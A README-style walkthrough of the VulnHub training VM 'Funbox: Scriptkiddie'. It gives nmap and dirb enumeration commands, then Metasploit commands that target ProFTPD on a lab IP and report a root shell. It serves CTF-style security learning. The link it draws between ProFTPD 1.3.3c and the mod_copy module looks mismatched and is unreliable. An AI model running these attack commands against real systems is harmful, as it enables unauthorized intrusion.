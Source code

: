# Funbox: Scriptkiddie - VulnHub Walkthrough

![VulnHub](https://www.vulnhub.com/static/img/logo.png)

## 🔗 Download Link

You can download the vulnerable VM from VulnHub:  
👉 [Funbox: Scriptkiddie - VulnHub](https://www.vulnhub.com/entry/funbox-scriptkiddie,725/)

---

## 🧠 Description

This repository contains a complete walkthrough of the **Funbox: Scriptkiddie** vulnerable machine. The goal is to gain root access by identifying and exploiting known vulnerabilities.

---

## 🛠️ Tools Used

- Nmap
- Firefox / Web Browser
- Dirb
- Metasploit Framework

---

## 🕵️‍♂️ Walkthrough

### 1. Nmap Scan

nmap -sV 10.0.2.9
Identified open ports:

21/tcp - FTP (ProFTPD 1.3.3c)

80/tcp - HTTP

2. HTTP Enumeration
Accessing the webpage:


http://10.0.2.9
No useful information found.

Tried brute-forcing directories:


dirb http://10.0.2.9
No significant results.

3. FTP Enumeration
Nmap revealed the FTP version is:

r

ProFTPD 1.3.3c
This version has a known vulnerability involving the mod_copy module.

4. Exploitation via Metasploit
Search for the exploit:


search ProFTPD 1.3.3c
Use the identified module:


use exploit/unix/ftp/proftpd_modcopy_exec
Set options:


set RHOST 10.0.2.9
set RPORT 21
run
5. Shell Access
Successfully gained a reverse shell and escalated privileges to root.

✅ Outcome
Gained full root access to the target machine.

Learned about exploiting FTP via ProFTPD mod_copy.

📁 Notes
Always confirm service versions before attempting known exploits.

Enumeration is key—never skip steps.

Use Metasploit responsibly and only on authorized systems.
